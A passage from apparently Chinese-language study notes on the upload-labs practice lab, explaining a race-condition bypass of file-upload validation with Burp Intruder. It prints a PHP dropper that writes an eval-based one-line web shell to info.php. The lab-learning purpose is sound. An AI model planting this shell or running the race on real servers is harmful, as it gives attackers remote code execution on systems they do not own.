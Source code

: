 他是先用move_uploaded_file函数上传，然后才检测是否合法，不合法就删除



我们可以用条件竞争，即在他还没删掉前去访问上传的writephp.php文件，从而让writephp.php解析一次，执行的内容是将一句话写入新文件info.php，然后info.php就被曲线救国“上传”成功了



writephp.php内容如下

```php
<?php fputs(fopen("info.php", "w"), '<?php @eval($_POST["x"]);?>'); ?>
```





需要用burp的intruder模块，一个负责上传writephp.php，一个负责访问writephp.php



抓两个原始包，改一下

这个负责上传

![image-20210122133736066](upload-labs学习笔记/image-20210122133736066.png)

这个负责访问
